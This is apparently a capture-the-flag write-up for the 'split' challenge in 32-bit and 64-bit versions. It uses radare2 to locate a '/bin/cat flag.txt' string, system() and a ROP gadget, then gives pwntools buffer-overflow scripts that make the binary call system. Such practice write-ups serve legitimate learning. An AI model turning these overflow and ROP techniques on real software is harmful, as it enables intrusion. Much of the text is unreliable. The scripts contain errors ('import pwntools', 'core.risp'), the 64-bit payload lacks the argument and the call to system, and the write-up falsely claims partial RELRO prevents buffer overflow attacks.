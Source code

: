
# Split 32 bit

As usual we run **rabin2 -I split** to see what kind of protection are enabled.

![rabin2 -I split](./images/01_02.png)

As we can see that the protection enabled are:

* NX, so the stack is not executable.
* PIC (Position Indipendent Code), it is used to load shared libraries in
location on each program address space where it will not overlap any other uses
of memory.
* RELRO (Relocation Read-Only), so the GOT is read only. In this case is partial
enabled so the PLT part of the GOT is writtable, in this case we can not use
baffer overflow attacks.

Now as always we run **iz** after we run **radare2 split** to see all the
strings that are present in the data section. If we want to see the strings in
all the binary we use **izz**.

![iz show strings in data section](./images/01_03.png)

In the result we see that is present a **/bin/cat flag.txt**, now we can use is
address to find all the reference to that string in tha binary, (**axt** command).
But the result is empty so there is no function that call that string. But we save
his address to use it in the exploit.

Now we can open the binary with radare2 and seek (s) the main and enter in
visual mode (V), now we see that the only call that we interest in is the pwnme.

![pwnme function](./images/01_04.png)

In this function we see that the binary allocate 0x20 (32) bytes for the buffer,
but then it use 0x60 (96) as number of bites to read.

Then if we list all the function in the binary we find: **usefulFunction**.

![usefulFunction](./images/01_05.png)

As we see there is a call to system, we save his address.

```python
import pwntools

elf = context.binary = ELF('split32')
context.log_level = 'debug'
system_parameter = p32(0x0804a030)
system = p32(elf.symbols.system)
system = p32(0x0804861a)

# We get the length of our junk part of the payload
io = process(elf.path)
io.sendline(cyclic(100))
io.wait()
eip = io.core.eip
offset = cyclic_find(eip)

payload = 'A'*offset + system + system_parameter

p = process(elf.path)
p.sendline(payload)
p.readall()
```

# Split 64 bit

We use radare2 function "iz" to find the string "/bin/cat/ flag.txt"
(0x00601060), this is the parameter that we pass to system.

Then we need the address of the function system, we can get it with pwntools.

Now we need a function to overflow, we can use the function pwnme that give us a
uverflow of 92 bytes in total.

![Overflow](./images/01_00.png)

Then we need a to create our ROP, to do so we need a sequence of "pop rdi, ret"
because we are in 64 bit. We can use the function "/a pop rdi, ret" or radare2,
we get the address "0x004007c3"

![ROP data](./images/01_01.png)

## Script

```python
from pwn import *

elf = context.binary = ELF('split')
context.log_level = 'debug'
system_parameter = 0x00601060
system = p64(elf.symbols.system)
info("target string %#x", system_parameter)
info("address of system() %x", system)

gadget = p64(0x004007c3)

io = process(elf.path)
io.sendline(cyclic(128))
io.wait()
core = io.corefile
stack = core.rsp
info("stack: %#x", stack)
pattern = core.read(stack, 4)
offset = cyclic.find(pattern)
info("pattern: %#x", pattern)
padding = cyclic(offset)

payload = padding + gadget
info("ROP Payload: %s", payload)

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recv()

core = io.corefile
stack = core.risp
pattern = core.read(stack, 4)
info("pattern: %r", pattern)
```
